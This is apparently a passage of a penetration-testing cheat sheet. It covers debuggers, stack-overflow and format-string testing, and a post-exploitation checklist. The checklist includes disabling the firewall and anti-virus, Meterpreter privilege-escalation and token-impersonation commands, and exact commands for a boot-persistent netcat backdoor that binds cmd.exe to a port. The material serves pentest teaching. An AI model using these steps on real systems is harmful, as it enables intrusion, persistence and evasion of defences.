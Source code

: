 We can use debugging tools to discover and exploit these vulnerabilities.
- [**OllyDbg**](https://www.ollydbg.de)
- [**x64dbg**](https://x64dbg.com)
- [**IDA Pro**](https://hex-rays.com/IDA-pro/)
- [**Ghidra**](https://ghidra-sre.org)
- [**gdb**](https://sourceware.org/gdb/documentation/)

#### Stack-Based
Steps to test for stack overflow vulnerabilities:
1. Attach a debugger to the target application or process.
2. Generate malformed input for the application.
3. Subject the application to malformed input.
4. Insert response in the debugger.

### Test for Format String Vulnerabilities
If the program we're analyzing is written in C or C++ it's worth looking for format string vulnerabilities. Try to manipulate parameters that will be printed by including `%x` or `%n`.

## Automating Internal Network PenTest Effort
We can use tools like [Metasploit](https://www.metasploit.com/download) or [CANVAS](https://www.immunityinc.com/products/canvas/) to automate a pentest.
## Post Exploitation
You've got a shell! Now, what!?

- Disable the firewall
- Disable Windows Defender
- Kill the anti-virus (Metasploit script - Kill av)
- Do local assessment:
  - learn the internal addressing (`ipconfig`/`ifconfig`)
  - ping
  - nslookup (DNS data)
  - nbtstat (machines of interes & domain controllers)
  - `netstat -ano` (connections)
    - In Linux use `netstat -vauptn` or `lsof`
  - `arp -a` (reachable machines)
  - Windows `net` commands (locating and disabling protections)
  - `ftp` and `tftp`
  - `telnet` banner grabbing
  - Check for utilities (especially in Linux)
  - Route print (routing table `netstat -r`)
  - `tasklist`/`svc` (services running)
- Use Meterpreter post exploitation scripts
  - `enumdesktops` (running desktops)
  - `migrate` (migrate to higher privilege process)
  - `getsystem` (attempt to escalate privileges)
  - `bypassuac` (attempt to bypass UAC, will fail in newer Windows)
  - `incognito` (attempt to impersonate a user using a valid token)
  - `list_tokens -u` (lists available tokens for impoersonation)
- Install a backdoor (if allowed)
  - Install `netcat`
    - First kill the anti-virus
    - Upload `nc.exe`
      - From meterpreter: `upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32`
  - Setup the backdoor at boot
    - `reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -d 'C:\windows\system32\nc.exe -Ldp <PORT> -e cmd.exe' -v netcat`
  - Connect to the victim machine
    - `nc -v <IP ADDRESS> <PORT>`
- Windows Target
  - Enable remote desktop
    - From meterpreter: `run getgui -e`
  - Add users for rdp